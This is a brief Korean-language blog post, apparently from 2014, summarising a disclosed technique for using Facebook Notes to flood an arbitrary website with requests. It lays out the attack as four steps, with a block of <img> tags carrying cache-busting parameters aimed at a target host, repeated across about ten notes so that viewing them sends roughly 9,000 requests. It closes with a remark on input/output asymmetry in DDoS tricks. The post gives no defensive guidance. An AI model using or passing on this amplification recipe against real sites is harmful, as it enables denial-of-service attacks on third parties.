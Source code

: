 ```yaml
---
layout: post
title: "Using Facebook Notes to DDoS any website"
date: 2014-04-28 08:43:15 +0900
comments: true
categories: 
---
```


[Using Facebook Notes to DDoS any website](http://chr13.com/2014/04/20/using-facebook-notes-to-ddos-any-website/)

요약해본다.

Step 1. Facebook Notes 는 `<img>` 태그를 받아준다. 원 소스에서 가져다가 캐쉬하는데, 파라메터를 쓰면 caching 을 바이패스할 수 있다.

    <img src=http://targethost/file?=1></img>
    <img src=http://targethost/file?=2></img>
    <img src=http://targethost/file?=3></img>
    <img src=http://targethost/file?=4></img>
    ...
    <img src=http://targethost/file?=1000></img>

Step 2. 이제 m.facebook.com 을 사용해 `note` 를 만든다. 900 언저리에서 사이즈 제한으로 짤릴 것이다.

Step 3. 동일한 내용으로 `note` 를 십여개 만든다. 이제 글 하나당 약 900 ~ 1000 개의 http request 공격이 된다.

Step 4. 이 `note` 들을 한꺼번에 본다. 타겟 서버는 9000 (900 x 10) 개의 http request 을 받게 된다.

많은 DDoS trick 의 요체는 input size v.s. output size 의 비대칭이다. 
내가 가진 제한된 upstream bandwidth 에 비해 대단히 비대칭적인 size 의 output packet 을 만들어낼 수 있냐가 핵심이다.
